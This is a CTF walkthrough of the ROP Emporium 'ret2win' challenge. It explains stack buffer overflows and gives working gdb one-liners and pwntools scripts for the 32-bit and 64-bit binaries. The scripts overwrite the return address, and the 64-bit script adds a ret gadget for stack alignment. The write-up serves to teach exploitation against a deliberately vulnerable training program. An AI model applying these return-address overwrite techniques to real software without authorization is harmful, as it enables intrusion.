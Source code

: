 # RET2WIN

I'll try to keep this as beginner-friendly as possible but frankly a lot of self-learn and searching is unavoidable.
Sites like [CTF101](https://ctf101.org/binary-exploitation/return-oriented-programming) and [bufferoverflows](https://bufferoverflows.net) are highly recommended.

## 32-bit

The first step (and often a free flag in CTFs)

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering
  
  First we can gather basic information with the `file` command in Linux:
  
```
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,
for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped
```
  
  It is a **32-bit, little-endian** (LSB) executable file.
  
  This 32-bit ELF can be disassembled in [gdb](https://linux.die.net/man/1/gdb) (debugger/disassembler in most linux systems) or [ghidra](https://ghidra-sre.org/) (powerful disassembler/decompiler).
  I like to use ghidra more because usually the decompiled C code will give me a better picture.

``` c
void pwnme(void){
  undefined local_2c [40];
  
  memset(local_2c,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_2c,0x38);
  puts("Thank you!");
  return;
}

void ret2win(void){ // 0x0804862c
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```
  
  Despite the description, the buffer is 40-byte long.
  As we can provide `0x38` bytes, which is greater than the 40 allocated, we can *overflow the buffer*.
  But what can happen? This is what **binary exploitation** or **pwn** is about.
  
  ### Introducing the stack
  
  No introduction to pwn can start without a nice graph of the program stack:
  
  ![Stack from Yale](https://flint.cs.yale.edu/cs421/papers/x86-asm/stack-convention.png)
  
  The stack is what computers use to control the program flow. Instruction addresses and parameters are pushed to and popped from the stack.
  There are many videos on Youtube illustrating how the stack is used by programs and I highly recommend watching them.
  It's important to recognize that *knowledge to the stack is fundamental to pwn*.
  
  Now we can answer the question *what can happen*.
  As our data are filled in, starting from some point in the current stack frame (space between `esp` and `ebp`) towards higher register (lower in the stack),
  we can control the value stored at `ebp` and most importantly the **return address**, i.e. where the program will jump to after finishing `pwnme`.
  This is the basic idea of *ret2win*. No parameters, no other protections, no complicated command chaining, just change the return address and win.
  
  ### Devising and implementing the payload
  
  There are many tools available for debugging and supplying inputs. I'm currently using:
  - **gdb/[pwndbg](https://browserpwndbg.readthedocs.io/en/docs/)**: add breakpoints, stack inspection
  - **[pwntools](https://docs.pwntools.com/en/stable/)**: a python library for interacting with processes with many handy tools for pwn
  
  For this challenge, here are some gdb commands that can be handy:
  
  ```
  set telescope-skip-repeating-val off (always show stack even for repeating values)
  info functions (display functions and their addresses)
  disassemble pwnme (show assembly of function)
  break *pwnme+105 (add a breakpoint, notice it should be added after reading user input)
  r <<< "ABCD" (the most simple way of supplying input before starting program)
  ```
  
  ![image](https://user-images.githubusercontent.com/114584910/197354065-3be9df7b-c29e-42cd-b9e6-fd40da0f168d.png)

  From the screenshot, we can clearly see the `esp` and `ebp` registers, the 40 byte space (`0xe8-0xc0`) allocated, as well as the return pointer pointing to `0x08048590 (main+74)`.
  The overall shape should be similar to the previous graph.
  
  So we can supply `"A"*44+"\x2c\x86\x04\x08"` to the program. Even if some characters cannot be typed, there are many ways to do this in gdb with some bash and python magic:
  - `r <<< $(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x2c\x86\x04\x08")`
  - `r <<< $(python3 -c 'from pwn import *;import sys;sys.stdout.buffer.write(b"A"*44+p32(0x0804862c))')`
  - write the payload to a file (with python, [hexed.it], etc) and load it with `r < filename`
  
  It's worth noting that [Python stdout uses `utf-8`](https://docs.python.org/3/library/sys.html#sys.stdout),
  so our `\x86` will become `\xc2\x86` if printed directly using `print`.
  *(the earlier one quits using `print`, the less one has to worry about supplying payload)*
    
  The pwntools python script is also very short:

``` py
from pwn import *
p = process('./ret2win32')
p.sendafter(b'> ', b"A"*(40+4)+p32(0x0804862c))
p.interactive()
```
</details>

## 64-bit

Some parts assume that you have read the 32-bit solution.

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering
  
  For 64-bit ELFs, we can also use IDA to decompile the program. 
  The difference between using either of them is not very apparent (at least to my current understanding) so it's just personal preference:

``` c
int pwnme(){
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  memset(s, 0, sizeof(s));
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don't worry about null bytes, we're using read()!\n");
  printf("> ");
  read(0, s, 0x38uLL);
  return puts("Thank you!");
}

int ret2win(){ //0x400756
  puts("Well done! Here's your flag:");
  return system("/bin/cat flag.txt");
}
```
  
  ### Devising and implementing the payload
  
  Using gdb/pwndbg:
  
  ![image](https://user-images.githubusercontent.com/114584910/197355965-a537b74b-88c6-495a-981e-2a08f1f79f50.png)

  Immediately we can see a difference: addresses in 32-bit ELF are 32-bit (4-bytes) while those for 64-bit are 64-bit (8-bytes).
  
  Applying what we have learnt:
  
``` py
from pwn import *
p = process('./ret2win')
p.sendafter(b'> ', b"A"*(32+8)+p64(0x400756)) # remember to change to p64
p.interactive()
```
  
  ![image](https://user-images.githubusercontent.com/114584910/197356165-82a57dac-2a6a-4272-9c97-94de051b1a79.png)

  Although we have entered the `ret2win` function (as confirmed by the backtrace and message), a segfault happened *within* it.
  Fortunately this is [hinted by ROP Emporium as well](https://ropemporium.com/guide.html#Common%20pitfalls).
  This is an example of how [stack misalignment](https://technical-qa.com/what-is-the-stack-alignment/) can be an issue when building x64 exploits.
  
  *Wait, what's a `ret` gadget?*
  
  In more advanced pwn challenges, we have to build a chain of commands using fragments of the existing assembly code known as *gadgets*.
  A `ret` gadget "transfers control to the return address located on the stack" immediately and does not do anything on its own.
  It is a useful placeholder to change stack alignment.
  
  All functions end with `ret` and one such example can be found at 0x400755.
  
  Final script:

``` py
from pwn import *
p = process('./ret2win')
p.sendafter(b'> ', b"A"*(32+8)+p64(0x400755)+p64(0x400756))
p.interactive()
```
</details>
